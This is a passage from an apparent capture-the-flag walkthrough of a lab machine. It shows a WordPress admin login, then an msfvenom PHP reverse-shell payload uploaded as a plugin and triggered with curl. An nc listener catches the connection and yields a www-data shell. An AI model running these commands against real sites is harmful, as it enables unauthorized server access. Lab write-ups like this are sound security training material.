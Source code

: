 ![image](/assets/stapler-wordpress-john-login.png)

First times a charm! Looks like John is a WordPress admin.

Given that John is able to upload plugins, lets generate a Webshell with `msfvenom` and upload it.

`$ msfvenom -p php/reverse_php LHOST=10.1.1.128 LPORT=9001 -f raw > shell.php`

```
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3019 bytes
```

Once we upload our shell via the WordPress plugins page we'll execute it using `curl` and catch the reverse connection using `nc`.

`$ curl -s -k https://10.1.1.129:12380/blogblog/wp-content/uploads/shell.php`

`$ nc -lvnp 9001`

```
listening on [any] 9001 ...
10.1.1.129: inverse host lookup failed: Unknown host
connect to [10.1.1.128] from (UNKNOWN) [10.1.1.129] 60716
whoami
www-data
pwd
/var/www/https/blogblog/wp-content/uploads
```
